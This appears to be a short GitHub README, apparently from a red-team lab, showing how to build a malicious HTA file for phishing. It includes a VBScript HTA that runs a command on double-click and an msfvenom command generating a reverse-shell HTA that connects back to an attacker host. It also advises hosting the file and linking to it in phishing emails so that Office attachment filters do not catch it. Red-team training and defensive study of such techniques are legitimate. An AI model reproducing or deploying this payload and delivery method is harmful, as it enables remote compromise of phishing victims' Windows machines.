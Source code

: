 # Malicious-HTA-File

An HTA is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (VBScript and JScript). An HTA is executed using mshta.exe, which is typically installed along with IE. In fact, mshta is dependant on IE, so if it has been uninstalled, HTAs will be unable to execute.We can create a malicious hta file and use it on phishing.


# Demonstration

## Creating a malicious hta file to execute calc.exe

open Visual Studio Code on the attacker-windows VM and create a new file.
```markdown
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>
</html>
```

Save the file and browse to this file in explorer and double-click it to run.If calculater pops up it means code get executed.We can now replace the calc to payload to get shell.

### ALTERNATE
### Using msfvenom

```markdown
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f hta-psh -o shell.hta
```

NOTE: During phishing we will host our hta file and use link in a phishing mail http://x.x.x.x/demo.hta . If you send hta file directly as an attachment, by default, Office has filetype filtering in place that will prevent you from attaching certain files to emails (including HTAs, which is why we'd opt to sending a link instead). 

![OnPaste 20220610-183906](https://user-images.githubusercontent.com/106917304/173071374-fb6dc04c-82ae-44d8-b101-ab7de8c19070.png)


